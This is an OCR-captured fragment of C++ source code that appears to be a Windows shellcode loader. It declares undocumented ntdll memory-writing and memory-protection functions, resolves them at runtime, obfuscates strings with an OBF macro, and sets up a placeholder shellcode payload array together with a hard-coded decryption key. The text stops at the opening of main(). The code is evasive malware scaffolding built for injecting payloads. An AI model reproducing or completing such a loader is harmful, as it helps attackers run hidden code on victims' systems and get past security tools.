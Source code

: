 ```cpp
    ULONG_PTR ZeroBits,
    PSIZE_T RegionSize,
    ULONG AllocationType,
    ULONG Protect
    );

// link: http://undocumented.ntinternals.net/
typedef NTSTATUS(NTAPI* NtFreeVirtualMemory_t)(
    HANDLE ProcessHandle,
    PVOID* BaseAddress,
    PSIZE_T RegionSize,
    ULONG FreeType
    );

// link: http://undocumented.ntinternals.net/
typedef NTSTATUS(NTAPI* NtWriteVirtualMemory_t)(
    HANDLE ProcessHandle,
    PVOID BaseAddress,
    PVOID Buffer,
    SIZE_T BufferSize,
    PSIZE_T NumberOfBytesWritten
    );

// link: http://undocumented.ntinternals.net/
typedef NTSTATUS(NTAPI* NtProtectVirtualMemory_t)(
    HANDLE ProcessHandle,
    PVOID* BaseAddress,
    PSIZE_T RegionSize,
    ULONG NewProtect,
    PULONG OldProtect
    );

// link: http://undocumented.ntinternals.net/
typedef NTSTATUS(NTAPI* NtSetInformationThread_t)(
    HANDLE ThreadHandle,
    THREAD_INFORMATION_CLASS ThreadInformationClass,
    PVOID ThreadInformation,
    ULONG ThreadInformationLength
    );

template<typename T>
T GetNtFunction(const char* funcName) {
	HMODULE ntdll = GetModuleHandleW(OBF(L"ntdll.dll"));
	if (!ntdll) {
		SetConsoleColor(FOREGROUND_RED | FOREGROUND_INTENSITY);
		std::cerr << OBF("Failed to get handle to ntdll.dll") << std::endl;
		return nullptr;
	}
	return reinterpret_cast<T>(GetProcAddress(ntdll, funcName));
}

BYTE payload[] = { ...SHELLCODE... };
DWORD payload_size = sizeof(payload);

std::string key = OBF("0dAd2!@BS1dtdCgPMWoA");

void LogWinapiError(const char* functionName) {
	SetConsoleColor(FOREGROUND_RED | FOREGROUND_INTENSITY);
    std::cerr << functionName << OBF(" failed with error code ") << GetLastError() << std::endl;
}

INT main() {
	SetConsoleColor(FOREGROUND_RED | FOREGROUND_INTENSITY);
```